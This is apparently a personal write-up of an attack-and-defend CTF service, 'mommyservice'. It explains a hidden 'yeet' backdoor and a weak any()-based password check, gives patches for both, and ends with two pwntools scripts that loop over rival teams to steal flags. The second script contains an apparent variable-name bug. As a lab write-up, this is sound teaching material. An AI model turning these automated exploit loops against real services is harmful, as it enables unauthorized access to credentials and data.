


A post about the `mommyservice` from `aCTF3`.

Before we start, I want to thank:

- *@redgate* for helping us with setup, giving us a few pointers, and answering our questions (`pwntools` is dank).
- *@mahaloz* and *@fish* letting us play :)

# Intro

This weekend, I played my first attack and defend style CTF with *@SirSquibbins* under team **sashimi**. This CTF was very cool and well organized. I also liked the 4 hours length, short enough to spare my monitor for another day (:anger::punch::computer:), long enough to learn and practice something cool.

# Seting up and picking a challenge

After connecting via `ssh`, we got the following message:

>All services are running insider their own Docker containers. Their ports are
>mapped to the host, starting from 10001.
>
>Each challenge is located at /opt/ictf/services inside its directory. You may
>modify the files inside to patch your services.

I spend most of our time before the game understanding the game infrastructure, testing connection, and spamming *@redgate* with questions.

We were provided 3 services:

- `bl4ckg0ld`
- `dungeon`
- `mommyservice`

I spend all of the 4 hours on `mommyservice`, so I will talk about it in the rest of the post.

# Code review and interacting with mommyservice

## main serv()

I looked at the source code first before interacting with the service.

`baby_id` in this challenge is the `flag_id` of each team, which can be found using the game API.

In the main service function, it calls backdoor() when the encrypted md5 hash of input equals the hash (`f696...`), wh equals `yeet`.

so, the main service function takes an input and calls different functions accordingly.

- `1` ➡ `name_a_baby()`  
- `2` ➡ `get_baby_name()`  
- `yeet` ➡ `backdoor()`  
- `3` ➡ `print bye message`  
- `anything else` ➡ `print error message`  

Let's look at what these functions do.

## name_a_baby()

- generate a random `baby_id`, ask for the `baby_name` (lines 2-5).
- generate a random password (line 8).
- write the password and `baby_name` to file, using `baby_id` as file name (lines 10-15).
- print the `baby_id`, password, and other messages (lines 17-20).



## get_baby_name() :exclamation:

- ask for `baby_id`
- check if file with `baby_id` name exists
    - ask for password.
    - read file with `baby_id` name extract the contents.
    - calcualte the first 8 bytes of SHA256 hash of input password.
    - calcualte the first 8 bytes of SHA256 hash of `baby_id`'s password.
    - :exclamation: check if **any** byte of each of one hash equals the other.
        - print the `baby_name` associated with the `baby_id`.


## backdoor() :exclamation:

- print hint and ask for `baby_id`.
- :exclamation: iterate through each file or directory, checks if it equals to `baby_id`.
    - read file `baby_id` and print its password.


# Vulnerabilities and patches

## backdoor() :+1:

The `backdoor()` function takes `baby_id` and prints its password.

The `get_baby_name` function takes `baby_id`, its password, then print the `baby_name` associated with the `baby_id`.

So, we need to:

1. send each team's `flag_id` to `backdoor()` to get password of `flag_id`.
2. send `flag_id` and its password to `get_baby_name` to get the name of `flag_id`.

I created my own baby name `a_flag_goes_here`, which have `bx97JrXMl3` as its `baby_id` and `kudBTrPH6x2daYsGlNOj` as its `password`.



### patch

We patched this by just not calling it in the main service function.

## get_baby_name() :fire:

We didn't see this until later in the game, but we still got a lot of points from it.

```python
if any(b0 == b1 for b0, b1 in zip(hash_0, hash_1)):
```

We have control of `hash_0` and `b0` since they are the SHA265 hash bytes of our input.

The `any()` function is used, so if **any** of our input hash bytes (`b0`) match **any** of the password hash bytes (`b1`), it will pass.

Another way of looking at it, if our input hash byte (`b0`) matches **any** of the password hash bytes (`b1`)

We can brute force all the possibilities of a hash byte (`b1`) (256 possibilities).

input ➡ SHA256 ➡ input hash byte

We want all the input that leads to a unique hash byte. The number of unique hash bytes should be 256.

To pass the password check and get the flag, our best case would be 1 attempt and worst case 256 attempts.

### patch

We patched this by changing `any` to `all` in the check condition within the function.

This will check if **all** of our input hash bytes (`b0`) match **all** of the password hash bytes (`b1`).

```python
if all(b0 == b1 for b0, b1 in zip(hash_0, hash_1)):
```

# Scripts

## backdoor() exploit

```python
from pwn import remote
from swpag_client import Team
import time

context.log_level = "error"

t = Team("REDACTED", "REDACTED")

def exp(host_ip, flag_id):
    flags = []

    try:
        # send "yeet" to call backdoor(), which return passphrase
        p = remote(host_ip, 10003)

        p.sendline("yeet") # backdoor()

        p.recvuntil("?") # ask for baby id

        p.sendline(flag_id) # send baby id

        p.recvuntil("?\n") # blah

        password = p.recvuntil("\n").strip()

        p.close()

        # send baby id and password to get flag
        p = remote(host_ip, 10003)

        p.sendline("2") # get_baby_name()

        menu_message = p.recvuntil(": ")

        p.sendline(flag_id.strip()) # send baby id

        baby_message = p.recvuntil(": ")

        p.sendline(password) # send password

        before_baby = p.recvuntil(": ")

        before_flag = p.recvuntil(": ")

        flag = p.recvuntil("\n").strip()

        flags.append(flag.decode("ascii")) # save flag

    except:
        pass

    p.close()
    return flags

if __name__ == "__main__":
    while True:
        print(f"--- Starting attack at: {time.ctime()} ---")
        for target in t.get_targets(3):  # iterate through all the target
            flag_id = target['flag_id']  # get their baby id
            host_ip = target['hostname'] # get their hostname
            try:
                flags = exp(host_ip, flag_id)
                print(flags)
                stat = t.submit_flag(flags)
                print(stat)
            except:
                pass
        print("--- Attack done. ---")
        time.sleep(30)
```

## get_baby_name() exploit

```python
from pwn import remote, context
import hashlib
import string
from swpag_client import Team
import time

context.log_level = "error"

t = Team("REDACTED", "REDACTED")

def gen_byte_map():
    byte_map = {}

    for input_i in range(2000):
        new_hash_byte = hashlib.sha256(str(input_i).encode("ascii")).digest()[:1] # get first hash byte of input_i 
        new_hash_int = int.from_bytes(new_byte, "little")   # convert byte to int

        if new_hash_int not in byte_map: # not in dic
            byte_map[str(new_hash_int)] = input_i  # add to dic, new_hash_int:input_i

        if len(list(byte_map.keys())) == 256: # got all the possible hash bytes
            break

    return (list(byte_map.keys()))

def exp(host_ip, flag_id):
    flags = []

    byte_map = gen_byte_map() # ['95', '107', '212', '78', '75', '239', '231', '121', '44', '25', ...]

    for num_str in byte_map:
        try:
            p = remote(host_ip, 10003)

            menu_message = p.recvuntil(": ")

            p.sendline("2") # get_baby_name()

            baby_message = p.recvuntil(": ")

            p.sendline(flag_id.strip()) # baby id

            pass_message = p.recvuntil(": ")

            p.sendline(num_str) # password

            pass_resp = p.recvline().decode("ascii")

            if "Error" not in pass_resp: # got flag
                flag = pass_resp.split(":")[1].strip()
                flags.append(flag)
                print("byte found!")
                break

            p.close()

        except:
            pass

    return flags

if __name__ == "__main__":
    while True:
        print(f"--- Starting attack at: {time.ctime()} ---")
        for target in t.get_targets(3):  # iterate through all the target
            flag_id = target['flag_id']  # get their baby id
            host_ip = target['hostname'] # get their hostname
            try:
                flags = exp(host_ip, flag_id)
                print(flags)
                stat = t.submit_flag(flags)
                print(stat)
            except:
                pass
        print("--- Attack done. ---")
        time.sleep(30)
```